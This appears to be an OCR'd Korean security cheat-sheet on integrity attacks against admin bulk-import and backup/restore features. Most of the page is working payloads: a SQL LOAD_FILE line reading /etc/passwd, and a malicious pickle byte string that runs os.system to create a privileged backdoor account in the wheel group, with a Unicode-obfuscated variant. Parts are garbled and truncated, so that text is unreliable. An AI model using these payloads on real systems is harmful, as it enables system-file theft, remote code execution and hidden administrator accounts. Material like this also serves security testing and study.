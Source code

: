 # Integrity Verification  
---------------------------------------------------------------------
관리자 페이지 내 편의성을 위한 한꺼번에 등록하거나  

특정 설정을 백업/복구하는 기능이 있을 경우  

해당 파일을 변조하여 서버 내 데이터 탈취 혹은 RCE 공격이 가능  

SELECT LOAD_FILE('/etc/passwd'); --  

(sql과 관련된 파일이 있을 경우)  

---------------------------------------------------------------------
pickle 역직렬화 공격
objects = [SafeObject(), BadObject()]  
첫 검사 로직 우회  

malicious_pickle_data = b'(cos\nsystem\nS"useradd -m -p $(openssl passwd -1 test1) TestAccount && usermod -aG wheel TestAccount"\no.  
문자열로 삽입

(U\2idios\nsystem\n.  
유니코드 삽입
